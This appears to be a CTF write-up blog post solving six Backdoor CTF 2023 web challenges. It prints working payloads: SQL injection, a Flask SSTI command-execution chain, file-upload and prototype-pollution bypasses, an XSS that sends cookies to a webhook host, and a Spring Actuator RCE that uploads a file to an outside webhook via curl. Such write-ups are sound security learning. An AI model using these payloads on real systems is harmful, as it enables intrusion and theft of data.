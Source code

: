 ```yaml
---
layout: post
title: Backdoor CTF 2023 Web Challenges
author: m0z
categories: [Jeopardy]
tags: [ctf,web]
---
```


## web/too-many-admins
Downloading the source, we can see this is a PHP challenge. Just a single PHP file and the flag is located in the database (dump.sql).

I immediately noticed the SQL injection here:

```php
$query = "SELECT username, password, bio FROM users where username = '$userParam' ";
```
Trying a simple blind SQLi payload `1'or'1'='1` on the `user` GET parameter reveals the entire database (limited to `id`, `user` and `password`).
I immediately noticed many of the hashes were [Magic Hashes](https://medium.com/@codingkarma/not-so-obvious-php-vulnerabilities-388a3b7bf2dc).

This is a hash which begins with `0e` followed by a string of numerical values. PHP has a difficult time with these hashes because it evaluates them to be loosely equal to zero due to PHP treating `e` as a symbol for an exponent.
So I wrote up a script to try `240610708` as the password for each admin user (there are 500).

While this script was running, I realized that the SQL injection vulnerability would actually allow us to dump the flag if we use a UNION query. Since the flag is stored in the `bio` column, we can simply use `1' UNION SELECT null, bio, null FROM users-- -` to dump the flag.

In the end, both techniques worked. Judging from the flag, the intended solution was actually the magic hash approach.

`flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/php-sucks
Opening the source for this challenge we notice the flag is a file on the server this time. With only a file upload, it is pretty clear that we will require an arbitrary file upload vulnerability to read the flag.

All the PHP code was in a single line so the first thing I did was paste this into a PHP beautifier. This made it easier to see what was happening in the code.

The implementation looked pretty secure. However, there was one line in particular that I didn't like:
```php
$fileName=strtok($fileName,chr(7841151584512418084));
```
This modified the filename; splitting it by a token and taking the first instance of the resulting array. What's strange is that `chr(7841151584512418084)` doesn't correspond to a normal character. I decided to run this PHP code and see what symbol it corresponded to and was pleasantly surprised that it was `$`.

So, we can upload a file named `shell.php$.jpg` and we will pass the initial file extension checks, ensure that the mimetype check is also satisfied. Then, it will be later renamed to `shell.php` by the aforementioned call to `strtok()`.

So uploading an image containing PHP code somewhere inside it (which is still a valid image) will work. After uploading, I found the flag and ran the command to view it `cat ../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt`.

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

## web/Unintelligible-Chatbot
This was the first sourceless challenge on the CTF. I pretty quickly tested for most obvious injection types include XSS and SSTI. Our SSTI payload seemed to work ({% raw %}`{{7*7}}`{% endraw %} => `49`).

From initial checks, it seems to be blocking any SSTI payloads with `[]` or `.` which means we will have a difficult time accessing dictionary values. If you're used to SSTI challenges then you'll know flask has a bunch of useful approaches to handle this including the `|attr()` method.

I'd love to elaborate more on this solution but this is one of the first things I tried and it worked. 
{% raw %}
```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
{% endraw %}

`flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war
I felt like this was among the more "guessier" of challenges. The description mentioned letters being split up amongst various routes. So I decided to fuzz for all printable characters and found a response at `/K`. I then wrote the following script to recover the other characters:

```python
import requests
import string

o = ""

while True:
    for s in string.printable:
        r = requests.get(f"http://34.132.132.69:8005/{o}{s}")
        if "wrong path" not in r.text:
            o += s
            print(o)
            break

```

Eventually after getting `Kur0s4k1` we see the following message:

`Ohhhh myy Goddd!! you finally did it!! you are worthy, my name Kur0s4k1`

I then logged in with username `Kur0s4k1` and password `1"or"1"="1` which worked.

`flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## web/armoured-notes
This was probably my favourite challenge on the CTF. We open the source code and see the flag is stored as a cookie on the admin bot. This means we will likely require XSS to solve this challenge.

However, we cannot create notes on this application as we are not an administrator. I pretty quickly noticed the dodgy usage of `Object.assign()` in the `duplicate()` method:

```javascript
export  function  duplicate(body) {
	let  obj={}
	let  keys  =  Object.keys(body);
	keys.forEach((key) => {
		if(key  !==  "isAdmin")
		obj[key]=body[key];
	})
	return  obj;
}
```

After seeing the hardcoded check for `isAdmin`, I realized that if we could add this as a field to our note when creating it (and set it to true), we could successfully overwrite the default value. This can be done using a prototype pollution.

```json
POST /create

{
	"uname":"John",
	"pass":"Doe",
	"__proto__": {
		"isAdmin": true
	},
	"message":"Your note..."
}
```

This successfully bypassed the check and created our note. I got stuck at this point for a while until I eventually ran `npm audit` and discovered there was a public XSS exploit available for ViteJS.
All the information needed to exploit this can be found [here](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title).

Final payload which I sent to the admin bot:
```
http://34.132.132.69:8001/posts/6580526999d634eec4c73707/?"></script><script>window.location.href=`https://webhook.site/77b428d2-33c2-437f-8425-9ef657cdacea/${btoa(document.cookie)}`</script>
```

`flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`

## web/Rocket Explorer
Credit to Protag (@0daystolive) for immediately noticing that this was vulnerable to an exposed Spring Boot Actuator ([exploit here](https://github.com/spaceraccoon/spring-boot-actuator-h2-rce)). The main challenge here was due to the server consistently crashing.

I had tried to get a reverse shell for a long time but this was not working. I was able to get a pingback but had no idea where the flag was located on the server and wasn't getting a successful backconnect from the shell payload.

I ended up having to guess various flag locations and spam requests to get the flag. I wrote this bash script to guess `/flag` which successfully worked.

```bash
while true
do
        curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream());  if (s.hasNext()) {s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'curl -T /flag <webhook>\');\"}' 'http://34.173.50.60:8080/actuator/env'
        curl -X 'POST' -H 'Content-Type: application/json' 'http://34.173.50.60:8080/actuator/restart'
done
```

`flag{sp4c3_r4cc00ns_rc3}`
